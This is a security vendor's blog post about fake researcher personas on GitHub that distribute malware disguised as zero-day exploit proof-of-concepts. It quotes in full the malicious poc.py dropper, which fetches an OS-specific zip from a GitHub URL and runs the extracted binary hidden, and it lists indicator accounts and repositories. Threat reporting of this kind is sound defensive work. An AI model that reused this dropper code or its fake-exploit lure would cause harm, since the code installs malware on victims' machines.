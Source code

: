 ```yaml
---
title: "Fake Security Researcher GitHub Repositories Deliver Malicious Implant - Blog - VulnCheck"
date: 2023-06-14T00:00:00.000Z
draft: false
type: posts
categories: 
- 
---
```

# Fake Security Researcher GitHub Repositories Deliver Malicious Implant - Blog - VulnCheck

<br/>

<br/>
::check-list\\n---\\ntitle: Key Takeaways\\nico: mdi:check-bold\\nlist:\\n - In early May, VulnCheck came across a malicious GitHub repository that claimed to be a Signal 0-day. The team reported the repository to GitHub, and it was quickly taken down. The same scenario continued throughout May.\\n - Recently, the individuals creating these repositories have put significant effort into making them look legitimate by creating a network of accounts and Twitter profiles, pretending to be part of a non-existent company called High Sierra Cyber Security, and even using headshots of legitimate security researchers from companies like Rapid7.\\n - Each High Sierra Cyber Security account contains a malicious repository claiming to be an exploit for a well-known product, including Chrome, Exchange, Discord, and more. Some of the accounts even advertise their “findings” on Twitter.\\n - Security researchers should understand that they are useful targets for malicious actors and should be careful when downloading code from GitHub. Always review the code you are executing, and don’t use anything you don’t understand.\\n---\\n::\\n\\nAs part of VulnCheck’s \[Exploit Intelligence\](https://vulncheck.com/product/exploit-intelligence) offering, we monitor and review large amounts of GitHub repositories. The review process exists to filter out useless, malicious, and/or scam repositories. In early May, during routine reviews, we came across an obviously malicious GitHub \[repository\](https://github.com/researchkendra91/signal-zeroday-exploit) that claimed to be a Signal 0-day. We reported the repository to GitHub, and it was quickly taken down.\\n\\nThe very next day, an almost identical repository was created under a different account, but this time claiming to be a \[WhatsApp zero-day\](https://github.com/darthvander20/whatsapp-zero-day-exploit/blob/main/poc.py). Again, we worked with GitHub to get the repository taken down. This process kept repeating itself throughout May.\\n\\nMore recently, however, the individual(s) creating these repositories have put more effort into making them look legitimate by creating a network of accounts. The attacker has created half a dozen GitHub accounts and a handful of associated Twitter accounts. The accounts all pretend to be part of a non-existent security company called High Sierra Cyber Security. Below is an example of one such account:\\n\\n!\[GSanderson\](/blog/fake-repos-deliver-malicious-implant/sanderson.png){:width="100%"}\\n\\nThe profile looks like a normal security researcher account. The account has a headshot, followers, an associated organization, a Twitter handle, and a (dead) link to the company’s website. However, we recognized “Andrei Kuzman” was using a headshot of a \[Rapid7 employee\](https://www.rapid7.com/globalassets/\_images/people/curt-barnard1.png){:width="100%"}. So it appears the attacker is not only making efforts to make the profiles look legitimate, but also using headshots of actual security researchers.\\n\\nEach High Sierra Cyber Security account contains a malicious repository claiming to be an exploit for a well-known product: Chrome, Exchange, Discord, etc. Some of the accounts even advertise their “findings” on Twitter:\\n\\n!\[Kuzman\](/blog/fake-repos-deliver-malicious-implant/kuzman.png){:width="100%"}\\n\\nThe repositories all follow a very simple formula. They all look like the following image (including tagging of “hot” CVE to attract victims):\\n\\n!\[Repo Layout\](/blog/fake-repos-deliver-malicious-implant/layout.png){:width="100%"}\\n\\n\`poc.py\` contains the code to download a malicious binary, and then execute it. The python script will download a different payload depending on the victim’s host operating system. The above Discord “0-day” uses the following code to perform these actions:\\n\\n\`\`\`python\\nif \_\_name\_\_ == '\_\_main\_\_':\\n if os.name == 'nt':\\n try:\\n namezip = "cveswindows.zip"\\n name = "cveswindows"\\n url = "https://github.com/GSandersonHSCS/discord-0-day-fix/raw/main/gitignore/cveswindows.zip"\\n des = os.path.join(os.environ\['TMP'\], namezip)\\n if not os.path.exists(os.path.join(os.environ\['TMP'\], name, name + ".exe")):\\n urllib.request.urlretrieve(url, des)\\n with open(des, 'wb') as f: f.write(urllib.request.urlopen(url).read())\\n zf = ZipFile(des, 'r')\\n zf.extractall(os.path.join(os.environ\['TMP'\], name))\\n zf.close()\\n pid = subprocess.Popen(\[os.path.join(os.environ\['TMP'\], name, name + ".exe")\], creationflags=0x00000008 | subprocess.CREATE\_NO\_WINDOW).pid\\n except:\\n pass\\n else:\\n url = "https://github.com/GSandersonHSCS/discord-0-day-fix/raw/main/gitignore/cveslinux.zip"\\n namezip = "cveslinux.zip"\\n name = "cveslinux"\\n\\n des = os.path.join("/home/" + os.environ\["USERNAME"\] + "/.local/share", namezip)\\n if not os.path.exists(os.path.join("/home/" + os.environ\["USERNAME"\] + "/.local/share", name, name)):\\n urllib.request.urlretrieve(url, des)\\n with open(des, 'wb') as f: f.write(urllib.request.urlopen(url).read())\\n zf = ZipFile(des, 'r')\\n zf.extractall(os.path.join("/home/" + os.environ\["USERNAME"\] + "/.local/share", name))\\n zf.close()\\n st = os.stat(os.path.join("/home/" + os.environ\["USERNAME"\] + "/.local/share", name, name))\\n os.chmod(os.path.join("/home/" + os.environ\["USERNAME"\] + "/.local/share", name, name), st.st\_mode | stat.S\_IEXEC)\\n subprocess.Popen(\["/bin/bash", "-c", os.path.join("/home/" + os.environ\["USERNAME"\] + "/.local/share", name, name)\], start\_new\_session=True, stdout=subprocess.DEVNULL, stderr=subprocess.STDOUT)\\n\\n\\n main()\\n\`\`\`\\n\\nAbove, \`poc.py\` downloads one of two zip files. \`cveslinux.zip\` or \`cveswindows.zip\` are fetched from GitHub, unzipped, written to disk, and executed. The Windows binary has a very high detection rate on VirusTotal (\[43/71\](https://www.virustotal.com/gui/file/777c9220670025a487f4e853987df0482fbd545189137d58a60d4ab37c1cfbb4)). The Linux binary much less so (\[3/62\](https://www.virustotal.com/gui/file/ba4be87b3747e6c009c3aa9c9f28ce4331cd3fe2bd0d332283f226d747698733/detection)), but it contains some very obvious strings indicating its nature.\\n\\n!\[Repo Layout\](/blog/fake-repos-deliver-malicious-implant/ghidra.png){:width="100%"}\\n\\nThe attacker has made a lot of effort to create all these fake personas, only to deliver very obvious malware. It’s unclear if they have been successful, but given that they’ve continued to pursue this avenue of attacks, it seems they believe they \*will\* be successful.\\n\\nIt isn’t clear if this is a single individual with too much time on their hands, or something more advanced like the campaign uncovered by \[Google TAG in January 2021\](https://blog.google/threat-analysis-group/new-campaign-targeting-security-researchers/). Either way, security researchers should understand that they are useful targets for malicious actors and should be careful when downloading code from GitHub. Always review the code you are executing and don’t use anything you don’t understand.\\n\\nIf you have engaged with any of the following accounts, consider the possibility that you’ve been compromised.\\n\\n### GitHub Accounts\\n1. https://github.com/AKuzmanHSCS\\n1. https://github.com/RShahHSCS\\n1. https://github.com/BAdithyaHSCS\\n1. https://github.com/DLandonHSCS\\n1. https://github.com/MHadzicHSCS\\n1. https://github.com/GSandersonHSCS\\n1. https://github.com/SSankkarHSCS\\n\\n### Malicious Repositories\\n1. https://github.com/AKuzmanHSCS/Microsoft-Exchange-RCE\\n1. https://github.com/MHadzicHSCS/Chrome-0-day\\n1. https://github.com/GSandersonHSCS/discord-0-day-fix\\n1. https://github.com/BAdithyaHSCS/Exchange-0-Day\\n1. https://github.com/RShahHSCS/Discord-0-Day-Exploit\\n1. https://github.com/DLandonHSCS/Discord-RCE\\n1. https://github.com/SSankkarHSCS/Chromium-0-Day\\n\\n### Twitter Accounts\\n1. https://twitter.com/AKuzmanHSCS\\n1. https://twitter.com/DLandonHSCS\\n1. https://twitter.com/GSandersonHSCS\\n1. https://twitter.com/MHadzicHSCS

#### [Source](https://vulncheck.com/blog/fake-repos-deliver-malicious-implant)

<br/>
---
